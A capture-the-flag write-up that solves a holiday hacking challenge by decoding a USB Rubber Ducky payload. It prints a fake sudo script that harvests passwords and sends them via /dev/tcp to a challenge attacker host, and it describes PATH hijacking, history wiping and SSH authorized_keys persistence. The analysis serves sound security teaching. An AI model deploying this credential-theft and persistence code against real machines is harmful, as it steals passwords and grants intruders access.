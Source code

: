 # Strange USB Device

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [ducky terminal](https://docker2021.kringlecon.com/?challenge=ducky&id=0b50ffba-320c-4ef4-bd54-9c68faf91628)<br/>
**Terminal hint**: [IPv6 Sandbox](../hints/h5.md)


## Objective

!!! question "Request"
    Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

??? quote "Morcel Nougat"
    Hello and welcome to the speaker _Un_Preparedness Room!<br/>
    I'm Morcel Nougat, elf extraordinaire.<br/>
    I've heard the talks at the other con across the way are a bit... *off*.<br/>
    I really don't think they have the right sense about what makes for a wonderful holiday season. But, anyway!<br/>
    Say, do you know anything about USB Rubber Duckies?<br/>
    I've been playing around with them a bit myself.<br/>
    Please see what you can do to help solve the Rubber Ducky Objective!<br/>
    Oh, and if you need help, I hear Jewel Loggins, on this floor outside this room, has some experience.


## Hints

??? hint "Ducky Script"
    [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language) is the language for the USB Rubber Ducky.

??? hint "Ducky RE with Mallard"
    It's also possible the reverse engineer encoded Ducky Script using [Mallard](https://github.com/dagonis/Mallard).

??? hint "Mitre ATT&CK and Ducky"
    The [MITRE ATT&CK tactic T1098.004](https://attack.mitre.org/techniques/T1098/004/) describes SSH persistence techniques through authorized keys files.

??? hint "Duck Encoder"
    Attackers can encode Ducky Script using a [duck encoder](https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload) for delivery as `inject.bin`.


## Solution

??? abstract "Welcome message"
    ```
    A random USB device, oh what could be the matter?
    It seems a troll has left this, right on a silver platter.
    Oh my friend I need your ken, this does not smell of attar.
    Help solve this challenge quick quick, I shall offer no more natter.

    Evaluate the USB data in /mnt/USBDEVICE.
    ```

Follow the instructions in the welcome message and list the contents of the `/mnt/USBDEVICE` to find an encoded `inject.bin` Ducky script. We can decode the script using [Mallard](https://github.com/dagonis/Mallard) which is availabe in our home folder as `mallard.py`.

![Reconnaissance](../img/objectives/o5/recon.png)

Running `python mallard.py --file /mnt/USBDEVICE/inject.bin` prints out the [original Ducky script](../artifacts/objectives/o5/ducky_script.txt).

![Run Mallard](../img/objectives/o5/mallard_exec.png)

The script creates a `~/.config/sudo` folder containing a malicious `sudo` script. When executed, the script requests a password (lines 1-2) and uses the value as input for the legitimate `sudo` tool to verify the password is correct (line 6). Regardless if the password is valid or not the data is then sent to *trollfun.jackfrosttower.com* on TCP port 1337 (lines 9 and 13). If the password is incorrect, the script is run again (lines 10-11). If the password is correct it's passed to the legitimate `sudo` tool (line 14).

!!! example "Ducky Script"
    **Note**: the Ducky script appears to contain a redundant `fi` statement on line 16 which will cause the `~/.config/sudo/sudo` script to fail.

    ```bash linenums="1"
    #!/bin/bash
    /usr/bin/sudo $@
    echo -n "[sudo] password for $USER: "
    read -s pwd
    echo
    echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
    if [ $? -eq 1 ]
    then
        echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
        echo "Sorry, try again."
        sudo $@
    else
        echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
        echo "$pwd" | /usr/bin/sudo -S $@
    fi
    fi
    ```

Next, the `~/.config/sudo/sudo` script is made executable and the `$PATH` environment variable in both `~/.bash_profile` and `~/.bashrc` is updated to ensure that the `~/.config/sudo/` path has priority over any other configured paths. The final part of the Ducky script reverses a string, BASE64-decodes it, and executes the decoded instructions via `bash`. The final step is to erase any shell history evidence by running `history -c` and deleting the `.bash_history` file.

![Reverse and BASE64-decode](../img/objectives/o5/base64_decode.png)

 Reversing and BASE64-decoding the data yields an `echo` statement which copies the SSH key for user *ickymcgoop@trollfun.jackfrosttower.com* into the `~/.ssh/authorized_keys` file, enabling easy access to the host.

!!! done "Answer"
    ickymcgoop

